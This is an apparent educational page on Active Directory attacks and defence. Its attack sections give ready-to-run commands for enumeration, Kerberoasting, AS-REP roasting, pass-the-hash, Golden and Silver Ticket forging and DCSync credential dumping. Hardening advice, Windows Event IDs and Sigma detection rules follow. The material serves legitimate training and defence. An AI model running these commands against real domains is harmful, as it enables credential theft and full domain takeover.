





# Active Directory Attacks & Defense

Active Directory (AD) is the backbone of enterprise identity management. Over 90% of Fortune 1000 companies use AD for authentication, authorization, and group policy management. This makes it the single highest-value target in any internal penetration test or red team engagement. A domain compromise gives an attacker access to every system, every user, and every secret in the organization.

This page covers the full AD attack lifecycle: enumeration, credential attacks, lateral movement, persistence, and domain dominance. Every offensive technique is paired with its defensive countermeasure and the detection logic (Windows Event IDs) that blue teams should monitor.

**Related**: [Cybersecurity Overview](/cybersecurity/) | [Red Team Operations](/cybersecurity/red-team-ops) | [Blue Team & SOC](/cybersecurity/blue-team-soc) | [Network Attacks](/cybersecurity/network-attacks)

::: danger Authorization Required
Active Directory attacks can disrupt production environments, lock out accounts, and trigger security alerts. Only perform these techniques in authorized lab environments or during engagements with explicit written permission. Kerberos attacks and DCSync can trigger immediate incident response.
:::

---

## Active Directory Architecture

Understanding AD's architecture is prerequisite to attacking it. Every attack exploits a specific component.



### Kerberos Authentication Flow

Every Kerberos attack exploits a specific step in this flow. Understanding it is essential.



---

## AD Enumeration

Enumeration is the foundation of every AD attack. You need to map users, groups, trust relationships, ACLs, and attack paths before exploiting anything.

### BloodHound & SharpHound

BloodHound is the most powerful AD enumeration tool. It maps every relationship in the domain and finds attack paths to Domain Admin that humans would never spot manually.

```bash
# SharpHound — data collection (run from compromised Windows host)
# Collect all data types
.\SharpHound.exe -c All --zipfilename bloodhound_data.zip

# Stealth mode — slower but less noise
.\SharpHound.exe -c All --stealth --zipfilename stealth_data.zip

# Collect specific data only
.\SharpHound.exe -c DCOnly  # Only query DCs (lower footprint)
.\SharpHound.exe -c Session,LoggedOn  # Session data for lateral movement paths

# Python-based collector (from Linux attack box)
bloodhound-python -u 'jsmith' -p 'Password123' -d corp.local -dc dc01.corp.local -c all
```

::: tip BloodHound Analysis Queries
After importing data into BloodHound, use these built-in queries:
- **Shortest Path to Domain Admin** — The most critical finding
- **Kerberoastable Users** — Service accounts with SPNs
- **AS-REP Roastable Users** — Accounts with pre-auth disabled
- **Unconstrained Delegation** — Computers that store TGTs
- **Users with DCSync Rights** — Non-DC accounts that can replicate
:::

### PowerView Enumeration

PowerView is part of PowerSploit and provides comprehensive AD querying without admin privileges.

```powershell
# Import PowerView
Import-Module .\PowerView.ps1

# Domain information
Get-Domain
Get-DomainController
Get-DomainPolicy | Select-Object -ExpandProperty SystemAccess

# User enumeration
Get-DomainUser | Select-Object samaccountname, description, memberof
Get-DomainUser -SPN  # Kerberoastable users
Get-DomainUser -PreauthNotRequired  # AS-REP roastable
Get-DomainUser -AdminCount  # Users with adminCount=1

# Group enumeration
Get-DomainGroup -Identity "Domain Admins" -Recurse
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
Get-DomainGroup -AdminCount  # Privileged groups

# Computer enumeration
Get-DomainComputer | Select-Object dnshostname, operatingsystem
Get-DomainComputer -Unconstrained  # Unconstrained delegation
Get-DomainComputer -TrustedToAuth  # Constrained delegation

# ACL enumeration — find exploitable permissions
Find-InterestingDomainAcl -ResolveGUIDs
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs

# Share enumeration
Find-DomainShare -CheckShareAccess
Find-InterestingDomainShareFile -Include *.ps1,*.bat,*.cmd,*.config,*.xml

# Trust enumeration
Get-DomainTrust
Get-ForestTrust
```

### LDAP Queries (Native)

When PowerView is not available, raw LDAP queries work from any domain-joined machine.

```powershell
# Find all Domain Admins
([adsisearcher]"(&(objectCategory=person)(objectClass=user)(memberOf=CN=Domain Admins,CN=Users,DC=corp,DC=local))").FindAll()

# Find service accounts (accounts with SPNs)
([adsisearcher]"(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))").FindAll()

# Find accounts with no Kerberos pre-authentication
([adsisearcher]"(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))").FindAll()

# Find computers with unconstrained delegation
([adsisearcher]"(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))").FindAll()
```

---

## Kerberos Attacks

### Kerberoasting

Kerberoasting targets service accounts with Service Principal Names (SPNs). Any domain user can request a service ticket for any SPN, and that ticket is encrypted with the service account's NTLM hash. Offline cracking recovers the password.



```powershell
# Kerberoasting with Rubeus (Windows)
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast

# Target specific high-value accounts
.\Rubeus.exe kerberoast /user:svc_sql /outfile:svc_sql.kerberoast

# Kerberoasting with Impacket (Linux)
impacket-GetUserSPNs corp.local/jsmith:'Password123' -dc-ip 10.10.10.1 -request -outputfile hashes.kerberoast

# Crack with Hashcat (mode 13100 for Kerberos 5 TGS-REP etype 23)
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

::: warning Why Kerberoasting Is Devastating
Service accounts often have:
- **Weak passwords** — set once and never rotated
- **Elevated privileges** — Domain Admin or local admin on many servers
- **No lockout policy** — cracking is offline, no failed login attempts
- **Long-lived credentials** — passwords may not expire
:::

### AS-REP Roasting

AS-REP roasting targets accounts with Kerberos pre-authentication disabled. Normally, the KDC requires the client to prove identity before issuing a TGT. When pre-auth is disabled, anyone can request a TGT for that user and crack it offline.

```powershell
# Find AS-REP roastable users
Get-DomainUser -PreauthNotRequired | Select-Object samaccountname

# AS-REP roasting with Rubeus
.\Rubeus.exe asreproast /format:hashcat /outfile:asrep_hashes.txt

# AS-REP roasting with Impacket (Linux)
impacket-GetNPUsers corp.local/ -usersfile users.txt -dc-ip 10.10.10.1 -format hashcat -outputfile asrep_hashes.txt

# Crack with Hashcat (mode 18200)
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```

---

## Credential-Based Attacks

### Pass-the-Hash (PtH)

NTLM authentication uses the hash directly — no need to know the plaintext password. If you extract a user's NTLM hash, you can authenticate as them.

```bash
# Pass-the-Hash with Impacket
impacket-psexec corp.local/administrator@10.10.10.5 -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c

# PtH with CrackMapExec (spray across multiple hosts)
crackmapexec smb 10.10.10.0/24 -u administrator -H 8846f7eaee8fb117ad06bdd830b7586c

# PtH with Evil-WinRM
evil-winrm -i 10.10.10.5 -u administrator -H 8846f7eaee8fb117ad06bdd830b7586c

# PtH with Mimikatz (Windows)
sekurlsa::pth /user:administrator /domain:corp.local /ntlm:8846f7eaee8fb117ad06bdd830b7586c /run:cmd.exe
```

### Pass-the-Ticket (PtT)

Instead of a hash, pass a Kerberos ticket (TGT or TGS) to authenticate. Tickets are stored in memory and can be extracted.

```powershell
# Export tickets with Mimikatz
sekurlsa::tickets /export

# Export tickets with Rubeus
.\Rubeus.exe dump /nowrap

# Import a ticket
.\Rubeus.exe ptt /ticket:ticket.kirbi

# Verify ticket is loaded
klist
```

### Golden Ticket

A Golden Ticket is a forged TGT signed with the `krbtgt` account's NTLM hash. The `krbtgt` hash is the master key of the domain — with it, you can create a TGT for any user, including non-existent ones, with any group memberships.

```powershell
# Prerequisites: you need the krbtgt NTLM hash (requires domain compromise)
# Get krbtgt hash via DCSync
lsadump::dcsync /domain:corp.local /user:krbtgt

# Create Golden Ticket with Mimikatz
kerberos::golden /user:FakeAdmin /domain:corp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /krbtgt:8846f7eaee8fb117ad06bdd830b7586c /id:500 /ptt

# Create Golden Ticket with Impacket
impacket-ticketer -nthash 8846f7eaee8fb117ad06bdd830b7586c -domain-sid S-1-5-21-1234567890-1234567890-1234567890 -domain corp.local FakeAdmin
export KRB5CCNAME=FakeAdmin.ccache
impacket-psexec corp.local/FakeAdmin@dc01.corp.local -k -no-pass
```

::: danger Golden Ticket Persistence
Golden Tickets are valid for **10 years** by default. The only way to invalidate them is to reset the `krbtgt` password **twice** (because AD keeps one previous password). This is one of the most dangerous persistence mechanisms in AD.
:::

### Silver Ticket

A Silver Ticket is a forged service ticket (TGS) signed with a service account's NTLM hash. Unlike Golden Tickets, Silver Tickets never touch the Domain Controller — they go directly to the service.

```powershell
# Create Silver Ticket for CIFS (file share access)
kerberos::golden /user:FakeUser /domain:corp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /target:fileserver.corp.local /service:cifs /rc4:SERVICE_NTLM_HASH /ptt

# Silver Ticket for HTTP (web service)
kerberos::golden /user:FakeUser /domain:corp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /target:webserver.corp.local /service:http /rc4:SERVICE_NTLM_HASH /ptt
```

| Attack | Requires | Scope | Detection Difficulty |
|--------|----------|-------|---------------------|
| **Golden Ticket** | `krbtgt` hash | Entire domain, any user | Hard (no DC validation) |
| **Silver Ticket** | Service account hash | Single service only | Very hard (no DC contact) |
| **Pass-the-Hash** | NTLM hash | Single account | Medium (NTLM auth logs) |
| **Pass-the-Ticket** | Kerberos ticket | Single session | Medium (anomalous tickets) |

---

## DCSync Attack

DCSync simulates a Domain Controller replication request (using MS-DRSR protocol) to extract password hashes from the domain. Any account with **Replicating Directory Changes** and **Replicating Directory Changes All** permissions can perform it — by default, Domain Admins and Domain Controllers.

```bash
# DCSync with Mimikatz (Windows)
lsadump::dcsync /domain:corp.local /user:administrator
lsadump::dcsync /domain:corp.local /user:krbtgt
lsadump::dcsync /domain:corp.local /all /csv  # Dump all hashes

# DCSync with Impacket (Linux)
impacket-secretsdump corp.local/administrator:'P@ssw0rd'@10.10.10.1
impacket-secretsdump corp.local/administrator@10.10.10.1 -hashes aad3b435b51404eeaad3b435b51404ee:HASH_HERE

# Output contains NTLM hashes for every domain user
# administrator:500:aad3b435b51404eeaad3b435b51404ee:NTLM_HASH:::
# krbtgt:502:aad3b435b51404eeaad3b435b51404ee:NTLM_HASH:::
```

::: warning DCSync Detection
DCSync is detectable. Windows Event ID **4662** logs directory service access. Look for replication GUIDs from non-DC sources:
- `{1131f6aa-9c07-11d1-f79f-00c04fc2dcd2}` — DS-Replication-Get-Changes
- `{1131f6ad-9c07-11d1-f79f-00c04fc2dcd2}` — DS-Replication-Get-Changes-All
:::

---

## AD Attack Cheat Sheet



---

## AD Hardening & Defense

### Tiered Administration Model

Microsoft's tiered model prevents credential exposure across security boundaries. An admin who logs into a workstation exposes their credentials to that workstation's memory — if the workstation is compromised, the admin account is compromised.

| Tier | Scope | Examples | Rule |
|------|-------|----------|------|
| **Tier 0** | Domain identity | Domain Controllers, AD admins, `krbtgt`, PKI | Never log into Tier 1/2 systems |
| **Tier 1** | Server infrastructure | Application servers, databases, file servers | Never log into Tier 2 systems |
| **Tier 2** | Workstations and devices | User workstations, laptops, printers | Standard user access only |



### LAPS (Local Administrator Password Solution)

LAPS randomizes local administrator passwords on every domain-joined computer and stores them in AD. This prevents lateral movement via shared local admin passwords.

```powershell
# Check if LAPS is deployed
Get-DomainComputer | Where-Object {$_.'ms-mcs-admpwdexpirationtime' -ne $null} | Select-Object dnshostname

# Read LAPS password (requires proper ACL)
Get-DomainComputer -Identity WORKSTATION01 -Properties ms-mcs-admpwd | Select-Object ms-mcs-admpwd

# PowerShell module
Get-AdmPwdPassword -ComputerName WORKSTATION01
```

### Protected Users Security Group

Members of the **Protected Users** group get enhanced security:

- Cannot use NTLM authentication (blocks Pass-the-Hash)
- Cannot use DES or RC4 in Kerberos (forces AES)
- No credential caching on endpoints
- TGT lifetime reduced to 4 hours
- Cannot be delegated

```powershell
# Add sensitive accounts to Protected Users
Add-ADGroupMember -Identity "Protected Users" -Members "admin-jsmith", "svc-critical"
```

### Additional Hardening Measures

| Control | What It Does | Blocks |
|---------|-------------|--------|
| **Disable NTLM** | Force Kerberos-only authentication | Pass-the-Hash, NTLM relay |
| **Enable AES-only Kerberos** | Disable RC4 encryption for Kerberos | Kerberoasting (RC4 is faster to crack) |
| **Managed Service Accounts (gMSA)** | Auto-rotate service account passwords (120-char random) | Kerberoasting |
| **Disable pre-auth carefully** | Ensure pre-auth is enabled for all accounts | AS-REP roasting |
| **Restrict DCSync permissions** | Audit and remove unnecessary replication rights | DCSync |
| **Credential Guard** | Isolate LSASS in a virtual container | Mimikatz hash extraction |
| **Admin Tiering + PAWs** | Privileged Access Workstations for Tier 0 | Credential exposure across tiers |
| **Disable Print Spooler on DCs** | Remove unnecessary service on DCs | PrintNightmare, SpoolSample |

---

## Detection with Windows Event IDs

Monitoring these events is critical for detecting AD attacks in real-time.

| Event ID | Log | What It Detects | Attack |
|----------|-----|-----------------|--------|
| **4768** | Security | TGT requested (AS-REQ) | AS-REP roasting (RC4 encryption type 0x17) |
| **4769** | Security | Service ticket requested (TGS-REQ) | Kerberoasting (RC4 encryption type 0x17) |
| **4771** | Security | Kerberos pre-auth failed | Password spraying |
| **4776** | Security | NTLM credential validation | Pass-the-Hash |
| **4662** | Security | Directory service access | DCSync (replication GUIDs) |
| **4624** | Security | Successful logon | Lateral movement (Logon Type 3, 10) |
| **4625** | Security | Failed logon | Brute force, password spraying |
| **4672** | Security | Special privileges assigned | Admin logon |
| **4720** | Security | User account created | Persistence |
| **4728/4732** | Security | Member added to security group | Privilege escalation |
| **4688** | Security | Process creation | Suspicious command execution |
| **1102** | Security | Audit log cleared | Anti-forensics |

### Sigma Detection Rules

```yaml
# Detect Kerberoasting — TGS requests with RC4 encryption
title: Potential Kerberoasting Activity
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4769
        TicketEncryptionType: '0x17'  # RC4
        TicketOptions: '0x40810000'
    filter:
        ServiceName|endswith: '$'  # Exclude machine accounts
    condition: selection and not filter
level: high

---
# Detect DCSync — replication from non-DC
title: Potential DCSync Attack
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4662
        Properties|contains:
            - '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'
            - '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2'
    filter:
        SubjectUserName|endswith: '$'  # Exclude DCs
    condition: selection and not filter
level: critical
```

---

## Lab Setup for Practice

| Platform | What to Practice | Cost |
|----------|-----------------|------|
| **GOAD (Game of Active Directory)** | Full AD lab with misconfigurations, multi-domain | Free (self-hosted) |
| **HackTheBox Pro Labs** | Offshore, RastaLabs, Cybernetics | $49-$90/mo |
| **TryHackMe AD Rooms** | Attacktive Directory, Post-Exploitation Basics | $14/mo |
| **DVAD** | Deliberately Vulnerable Active Directory | Free |
| **PurpleCloud** | Azure-hosted AD lab via Terraform | Free (Azure costs) |

::: tip Building Your Own Lab
Use **Proxmox** or **VirtualBox** to build a free AD lab:
1. Windows Server 2019/2022 as Domain Controller
2. Two Windows 10/11 workstations joined to the domain
3. Create tiered admin accounts, service accounts with SPNs, misconfigured ACLs
4. Install Sysmon for enhanced logging
5. Practice the full attack chain from enumeration to domain dominance
:::

---

## Quick Reference Card

| Task | Tool | Command |
|------|------|---------|
| Enumerate domain | BloodHound | `SharpHound.exe -c All` |
| Find Kerberoastable accounts | PowerView | `Get-DomainUser -SPN` |
| Kerberoast | Rubeus | `Rubeus.exe kerberoast /outfile:hashes.txt` |
| AS-REP roast | Impacket | `GetNPUsers corp.local/ -usersfile users.txt` |
| Pass-the-Hash | CrackMapExec | `cme smb 10.0.0.0/24 -u admin -H HASH` |
| DCSync | Mimikatz | `lsadump::dcsync /domain:corp.local /all` |
| Golden Ticket | Mimikatz | `kerberos::golden /user:... /krbtgt:HASH /ptt` |
| Dump credentials | Mimikatz | `sekurlsa::logonpasswords` |
| Lateral movement | Impacket | `psexec.py corp.local/admin@target` |
| Check LAPS | PowerView | `Get-DomainComputer -Properties ms-mcs-admpwd` |

---

## Further Reading

- [Red Team Operations](/cybersecurity/red-team-ops) — Full engagement lifecycle
- [Blue Team & SOC Operations](/cybersecurity/blue-team-soc) — Detection and monitoring
- [Network Attacks & Defense](/cybersecurity/network-attacks) — LLMNR/NBT-NS poisoning for initial access
- [Security Certifications](/cybersecurity/security-certifications) — OSCP, CRTO for AD-focused certs
- [Malware Analysis](/cybersecurity/malware-analysis) — Analyzing post-exploitation tooling
